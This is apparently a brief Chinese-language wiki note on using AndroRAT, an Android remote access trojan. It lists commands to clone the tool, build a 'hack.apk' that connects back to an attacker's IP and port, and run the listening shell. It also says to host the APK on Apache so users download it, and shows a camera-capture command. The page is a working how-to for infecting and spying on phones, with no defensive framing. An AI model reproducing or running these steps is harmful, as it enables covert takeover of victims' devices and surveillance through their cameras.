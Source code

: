 ```yaml
---
title: 01.AndroRAT
description: android远程管理工具
published: 1
date: 2023-04-24T10:34:41.852Z
tags: web tools
editor: markdown
dateCreated: 2023-04-19T17:49:03.242Z
---
```


<center>AndroRAT</center>



[toc]





### AndroRAT

> 一个简单的使用套接字的android远程管理工具 [github](https://github.com/karma9874/AndroRat)



```shell
# 下载
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```



### 1. 使用

```shell
# 生成apk  
python3 androRAT.py --build -i 192.168.1.10 -p 8888 -o hack.apk

# 监控端
python3 
python3 androRAT.py --shell -i 0.0.0.0 -p 8888

# 开启apche2 让用户可以网站下载apk
sudo systemctl start apache2.service
# 安装打开 提示连接到客户了

help # 查看帮助文档
# 相机
acmList   takepic 0
```

